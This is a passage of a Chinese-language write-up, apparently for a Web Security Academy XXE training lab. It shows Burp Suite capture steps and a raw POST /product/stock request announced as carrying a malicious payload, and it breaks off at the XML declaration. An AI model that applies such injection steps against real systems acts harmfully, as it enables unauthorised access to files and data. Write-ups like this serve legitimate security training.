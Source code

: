 [![](assets/1706060044-e81ac3dd9e83e1ffa1a847b63ea10231.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131417-41f534f0-b9ae-1.png)  
检查库存并使用 burpsuite 抓包  
[![](assets/1706060044-06ae2b967893fb9489cd875a65a7008e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131428-48590196-b9ae-1.png)  
数据包如下所示：  
[![](assets/1706060044-e258d673045363c8aeeb74d7a74508bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131444-51dda65e-b9ae-1.png)  
随后更改请求报文插入如下恶意载荷

```plain
POST /product/stock HTTP/1.1
Host: 0a43008404a4599280233f490021009d.web-security-academy.net
Connection: close
Content-Length: 225
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a43008404a4599280233f490021009d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a43008404a4599280233f490021009d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ToZwNYGafVMppmLL2oNYxQnw7KGjBM3O

<?xml version="1.0" encoding="UTF-8"?>
```